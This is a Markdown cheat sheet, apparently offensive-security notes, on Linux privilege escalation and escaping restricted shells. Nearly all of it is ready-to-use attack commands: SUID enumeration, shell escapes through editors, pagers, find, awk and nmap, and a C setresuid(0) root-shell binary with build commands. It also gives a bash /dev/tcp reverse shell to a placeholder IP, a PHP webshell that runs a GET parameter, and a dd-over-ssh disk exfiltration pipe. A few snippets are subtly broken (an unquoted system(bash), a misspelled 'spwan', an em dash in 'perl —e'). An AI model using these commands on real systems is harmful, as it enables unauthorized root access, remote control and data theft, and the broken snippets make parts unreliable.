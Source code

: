 # Search for Commands that run as Root:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```


## Restricted Shells: rbash, rksh, rzsh, lshell and rssh
1. try ls, cd, pwd, echo commands [if these commands are restricted, 
   an error will show up with the type of restricted shell we are in (most of the time, this is rbash)]
2. press tab twice to see what commands are available.
  a. if "ls" is avaiable list binaries in /bin, /usr/bin, /usr/local/bin
  b. echo /usr/bin/*  [use globbing to list directory contents]
  c. important to check for operators and escape characters such as the following:
  ```
     > >> < | & ; : ' " `
  ```
3. Try commands wrapped
```
(whoami)
{whoami}
```

## Shell Execution:
```
find /home -exec sh -i \;
```
## use text editors vim, vi, nano, pico, ed
```
:!/bin/sh, !/bin/zsh, try other shells!?!?
:shell
:set shell=/bin/sh
:set shell=/bin/bash:shell
:!bash
```

## use pagers less, more, or programs like man that use less or more by default
```
!/bin/sh, !/bin/zsh, try other shells!?!?
!/bin/bash
!bash
```

## find
use find command’s exec parameter for code execution (returns shell)
```
sudo find /home -exec sh -i \;
find /var/log -name messages -exec /bin/bash -i \;
```

## use awk command
```
awk 'BEGIN {system("/bin/sh")}'
```

## use expect command
```
expect
spwan sh
sh
```

## use tee command to create a script in scenarios where text editors aren't available
```
echo "bash -i" | tee script.sh
```

## use nmap command
```
nmap --interactive
nmap> !sh
```

## use ssh with the following options to escape restricted shell 
```
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```

## Reverse Shell:

```
bash -i >& /dev/tcp/<ip-address>/<port> 0>&1
```

# Programming Language:
## Python:
```
import os; os.system("/bin/sh")
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## PHP:
```
exec("sh -i");
```

## PHP Webshell:
```
<?php
  $command = $_GET['cmd'];
  echo system($command);
?>
```

## Perl:
```
exec "/bin/sh";
```
```
perl —e 'exec "/bin/sh";'
```

## Ruby:
```
exec "/bin/sh"
```
```
ruby -e 'exec "/bin/sh"'
```

## IRB:
```
exec "/bin/sh"
```

## Lua:
```
os.execute("/bin/sh")
```

## C:
```
#include <stdio.h>

int main(int argc, char **argv)
{
	int status = system(bash);
	return 0;
}
```
```
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```
```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```

### Building the SUID Shell binary
```
gcc -o suid suid.c 
gcc -o exploit exploit.c
``` 

### For 32 bit:
```
gcc -m32 -o suid suid.c  
gcc -m32 exploit.c -o exploit
```

### Compile Windows .exe on Linux
Build / compile windows exploits on Linux, resulting in a .exe file.
```
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```


# Encrypted exfil channel:
```
dd if=/dev/<disk-to-copy> bs=65536 conv=noerror, sync | ssh -C <user>@<ip-address> "cat > /tmp/image.dd"
```



